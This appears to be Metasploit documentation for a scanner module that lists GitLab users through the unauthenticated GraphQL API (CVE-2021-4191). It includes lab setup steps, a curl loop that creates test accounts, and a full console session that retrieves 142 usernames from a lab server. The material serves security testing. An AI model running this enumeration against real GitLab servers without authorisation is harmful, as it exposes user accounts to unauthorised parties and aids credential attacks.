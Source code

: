 ## Vulnerable Application

### Description

This module queries the GitLab GraphQL API without authentication to acquire the list of
GitLab users (CVE-2021-4191). The module works on all GitLab versions from 13.0 up to
14.8.2, 14.7.4, and 14.6.5.

Exploitation will result in acquiring a list of valid GitLab usernames.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.deb`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

To add a lot of users try something like this:

```
$ set -B
$ for i in {50..250}; do
curl -vv -X POST "http://10.0.0.6/api/v4/users?private_token=TOKEN&email=test$i@test.com&username=test$i&name=test$i&reset_password=True"
done
```

That should create 200 users with names such as "test50", "test51", etc.

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use auxiliary/scanner/http/gitlab_graphql_user_enum`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of usernames in loot.

## Options

### TARGETURI

Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. More than 100 users triggers paging logic.

```
msf > use auxiliary/scanner/http/gitlab_graphql_user_enum
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > set RHOST 10.0.0.13
RHOST => 10.0.0.13
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > set RPORT 80
RPORT => 80
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > run

[+] Enumerated 142 GitLab users
[+] Userlist stored at /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > cat /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt
[*] exec: cat /home/albinolobster/.msf4/loot/20220311065704_default_10.0.0.13_gitlab.users_704600.txt

test150
test149
test148
test147
test146
test145
test144
test143
test142
test141
test140
test139
test138
test137
test136
test135
test134
test133
test132
test131
test130
test129
test128
test127
test126
test125
test124
test123
test122
test121
test120
test119
test118
test117
test116
test115
test114
test113
test112
test111
test110
test109
test108
test107
test106
test105
test104
test103
test102
test101
test100
test99
test98
test97
test96
test95
test94
test93
test92
test91
test90
test89
test88
test87
test86
test85
test84
test83
test82
test81
test80
test79
test78
test77
test76
test75
test74
test73
test72
test71
test70
test69
test68
test67
test66
test65
test64
test63
test62
test61
test60
test59
test58
test57
test56
test55
test54
test53
test52
test51
test50
testuser
test39
test35
test34
test33
test32
test31
test30
test29
test28
test27
test26
test25
test24
test23
test22
test21
test20
test18
test19
test17
test16
test15
test14
test13
test12
test11
test10
test9
test8
test7
test6
test5
test4
test3
test2
test1
test
support-bot
alert-bot
root
msf auxiliary(scanner/http/gitlab_graphql_user_enum) > 
```
